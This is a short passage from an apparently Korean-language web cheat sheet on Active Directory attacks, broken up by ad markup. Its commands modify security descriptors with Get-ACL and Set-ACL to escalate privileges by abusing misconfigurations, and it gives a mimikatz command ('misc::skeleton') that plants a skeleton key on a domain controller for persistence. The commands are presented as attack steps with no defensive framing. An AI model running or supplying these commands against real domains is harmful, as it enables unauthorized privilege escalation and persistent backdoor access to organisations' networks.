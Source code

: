 2. 변경 내용이 삭제되지 않도록 보호하여 지속성을 보장하세요.



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

# 보안 기술자

- 잘못된 설정을 위한 보안 기술자 분석

```js
Get-ACL -Path "AD:<경로>"
```

2. 특권 상승을 위해 잘못된 설정을 이용하세요.



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

```js
Set-ACL -Path "AD:<경로>" -ACLObject $acl
```

# 스켈레톤 키

- 도메인 컨트롤러에 스켈레톤 키를 배포합니다.

```js
mimikatz.exe "privilege::debug" "misc::skeleton" "exit"
```



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>
